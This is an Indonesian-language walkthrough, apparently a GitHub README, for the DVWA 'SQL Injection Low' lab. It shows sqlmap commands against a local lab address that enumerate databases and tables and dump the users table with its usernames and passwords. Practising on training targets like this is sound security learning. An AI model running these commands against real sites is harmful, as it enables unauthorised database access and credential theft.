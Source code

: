 <b> HOW TO SOLVE SQL INJECTION LOW </b>

1. First, kita masukin user ID dengan angka '1' untuk men test, setelah itu kita copy url nya

   ```
   http://192.168.18.115/DVWA/vulnerabilities/sqli/?id=3&Submit=Submit# 
   ```

![Screenshot (445)](https://user-images.githubusercontent.com/118157585/215420792-fea06c63-43ad-459a-bca5-b848f089d75d.png)

2. Lalu kita buka Sqlmap di cli kita, copy url tadi. berikut perintahnya :

   ```
   sqlmap -u 'http://192.168.18.115/DVWA/vulnerabilities/sqli/?id=3&Submit=Submit#' --dbs
   ```

![Screenshot (446)](https://user-images.githubusercontent.com/118157585/215426505-51d80e8d-087c-4bfa-830d-b39d10f0f624.png)

![Screenshot (447)](https://user-images.githubusercontent.com/118157585/215426535-dfa75a1f-ed59-4a17-a7d8-dd45c03ee464.png)
   nah setelah itu keluar databases nya yang mana bisa kita cek dulu untuk mencari username dan password, seperti gambar diatas terdapat 2 databases yaitu 
  
   <i><b> dvwa </b></i>

   <i><b> information_scheme </b></i>
  
3. Nah disini kita eksekusi dulu di databases <i><b> dvwa </i></b>, dan terdapat 2 tables. dengan perintah :

   ```
   sqlmap -u 'http://192.168.18.115/DVWA/vulnerabilities/sqli/?id=3&Submit=Submit#' -D dvwa --tables
   ```
   
   ![Screenshot (450)](https://user-images.githubusercontent.com/118157585/215431105-74110598-67e4-4577-a00a-b217a73e7582.png)
   
4. Sekarang kita coba cek kolom dari tables <i><b> users </i></b>, nah gambar dibawah ini terdapat sebuah username dan password. dengan mengetikkan perintah :

   ```
   sqlmap -u 'http://192.168.18.115/DVWA/vulnerabilities/sqli/?id=3&Submit=Submit#' -D dvwa -T users --column
   ```
   
   ![Screenshot (448)](https://user-images.githubusercontent.com/118157585/215431189-1b512563-5a1e-4b92-857b-7cb8309f6f15.png)
   
5. Setelah kita mengetahui di tables <i><b> users </i></b> terdapat kolom usernam dan password, sekarang kita langsung 
   ``
   dump
   ``
   saja tables tersebut dengan mengetikkan perintah :
   
   ```
   sqlmap -u 'http://192.168.18.115/DVWA/vulnerabilities/sqli/?id=3&Submit=Submit#' -D dvwa -T users --dump
   ```
   
   ![Screenshot (449)](https://user-images.githubusercontent.com/118157585/215431205-8277a2b9-e772-4e96-a4ff-2fdfa6c0022e.png)
   
   nah itulah hasil yang kita dapet dengan melakukan sql injection
